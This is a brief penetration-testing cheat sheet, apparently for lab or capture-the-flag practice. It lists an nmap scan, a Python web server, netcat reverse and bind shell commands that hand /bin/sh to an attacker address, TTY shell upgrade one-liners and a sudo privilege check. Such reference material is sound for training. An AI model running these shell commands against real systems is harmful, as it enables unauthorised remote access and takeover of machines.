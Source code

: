 # NMAP
~~~
nmap -T4 -p -A \ip>
~~~
# Python Webserver
~~~
python3 -m http.server <port>
~~~

# Netcat 
~~~
## Reverse Shell
### Attacker Listener
nc -nlvp 4444
### Target Connecting
nc 192.168.1.2 4444 -e /bin/sh
## Bind Shell
### Attacker Connecting
nc 192.168.1.2 4444
### Target Listener
nc -nvlp 4444 -e /bin/sh
~~~
# TTY Shell
~~~
## Using python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'
## Echo
echo 'os.system('/bin/bash')'
## sh
/bin/sh -i
## bash
/bin/bash -i
## Perl
perl -e 'exec "/bin/sh";'
## From within VI
:!bash
~~~
# Privilege Escalation Check
~~~
sudo -l
~~~
# OpenVPN
~~~
sudo openvpn <file>.vpn
~~~



